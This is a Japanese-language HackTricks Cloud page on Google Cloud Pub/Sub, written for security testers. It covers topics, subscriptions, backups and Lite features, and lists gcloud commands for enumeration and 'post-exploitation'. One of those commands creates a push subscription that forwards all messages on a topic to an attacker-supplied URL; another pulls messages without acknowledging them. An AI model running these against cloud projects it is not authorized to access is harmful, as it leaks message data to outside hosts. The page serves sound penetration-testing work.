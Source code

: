 # GCP - Pub/Sub

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**PEASSの最新バージョンを入手したい**場合、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をご確認ください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)をフォローする。
* **ハッキングのトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

## Pub/Sub <a href="#reviewing-cloud-pubsub" id="reviewing-cloud-pubsub"></a>

Google [**Cloud Pub/Sub**](https://cloud.google.com/pubsub/)は、独立したアプリケーションが**メッセージを送受信**できるサービスです。基本的に、アプリケーションは**トピック**に**サブスクライブ**して**メッセージを送受信**することができます（メッセージはメッセージの内容といくつかのメタデータで構成されます）。

**トピックはキュー**であり、メッセージが送信される場所です。一方、**サブスクリプション**は、ユーザーが**トピック内のメッセージにアクセス**するために使用する**オブジェクト**です。1つのトピックには複数のサブスクリプションが存在することができ、3つのタイプのサブスクリプションがあります。

* **Pull**: このサブスクリプションのユーザーはメッセージをポーリングする必要があります。
* **Push**: URLエンドポイントが指定され、メッセージは直ちに送信されます。
* **BigQueryテーブル**: Pushと同様ですが、メッセージはBigQueryテーブルに格納されます。

デフォルトでは、メッセージは**7日間保持**されますが、この期間は**最大31日間まで延長**することができます。また、10秒以内に**ACKがない場合はキューに戻されます**。

トピックはデフォルトで**Googleが管理する暗号化キー**を使用して暗号化されます。ただし、KMSから**CMEK（顧客管理型暗号化キー）**を選択することもできます。

**デッドレター**: サブスクリプションは**配信試行回数の最大値**を設定することができます。メッセージが配信できない場合、指定されたデッドレタートピックに**再公開**されます。

### バックアップとスキーマ

トピックには**バックアップ**があり、そこには**古い機密情報**が含まれている可能性があります。バックアップは、**ACKされていないメッセージ**とそれ以降のメッセージを保持します（デフォルトでは1週間生存します）。

トピックを作成する際に、**トピックのメッセージがスキーマに従う必要がある**と指定することができます。

### 列挙
```bash
# Get a list of topics in the project
gcloud pubsub topics list
gcloud pubsub topics describe <topic>
gcloud pubsub topics list-subscriptions <topic>
gcloud pubsub topics get-iam-policy <topic>

# Get a list of subscriptions across all topics
gcloud pubsub subscriptions list
gcloud pubsub subscriptions describe <subscription>
gcloud pubsub subscriptions get-iam-policy <subscription>

# Get list of schemas
gcloud pubsub schemas list
gcloud pubsub schemas describe <snapshot>

# Get list of snapshots
gcloud pubsub snapshots list
gcloud pubsub snapshots describe <snapshot>
```
ただし、より良い結果を得るためには、[**より大きなデータセットを要求する**](https://cloud.google.com/pubsub/docs/replay-overview)ことができます。これにはいくつかの前提条件があり、アプリケーションに影響を与える可能性があるため、自分が何をしているのか本当に理解していることを確認してください。

### ポストエクスプロイテーション

{% code overflow="wrap" %}
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"

# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create my_subscription --topic <topic_name>
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>

# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint <URL to push to>
```
{% endcode %}

## Pub/Sub Lite

[**Pub/Sub Lite**](https://cloud.google.com/pubsub/docs/choosing-pubsub-or-lite)は、**ゾーンストレージ**を備えたメッセージングサービスです。Pub/Sub LiteはPub/Subの一部であり、**低コスト**でありながら、高いボリュームのストリーミング（最大10,000,000メッセージ/秒）パイプラインやイベント駆動型システムに適しています。

Pub/Sub Liteでは、**トピック**と**サブスクリプション**がありますが、**バックアップ**や**スキーマ**はありません。また、以下の機能があります：

* **予約**: Pub/Sub Liteの予約は、メッセージストリームのために特定のリージョンで容量を予約することができる機能です。
* **操作**: Pub/Sub Liteの管理と管理に関連するアクションとタスクを指します。

### 列挙
```bash
# lite-topics
gcloud pubsub lite-topics list
gcloud pubsub lite-topics describe <topic>
gcloud pubsub lite-topics list-subscriptions <topic>

# lite-subscriptions
gcloud pubsub lite-subscriptions list
gcloud pubsub lite-subscriptions describe <subscription>

# lite-reservations
gcloud pubsub lite-reservations list
gcloud pubsub lite-reservations describe <topic>
gcloud pubsub lite-reservations list-topics <topic>

# lite-operations
gcloud pubsub lite-operations list
gcloud pubsub lite-operations describe <topic>
```
<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もし **HackTricks で会社を宣伝したい** または **PEASS の最新バージョンにアクセスしたい** または **HackTricks を PDF でダウンロードしたい** 場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式の PEASS & HackTricks スワッグ**](https://peass.creator-spring.com) を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を見つけてください、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションです
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) または [**telegram グループ**](https://t.me/peass) に **参加** するか、 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) を **フォロー** してください。
* **ハッキングのトリックを共有するために、PR を** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **の GitHub リポジトリに提出してください。**

</details>
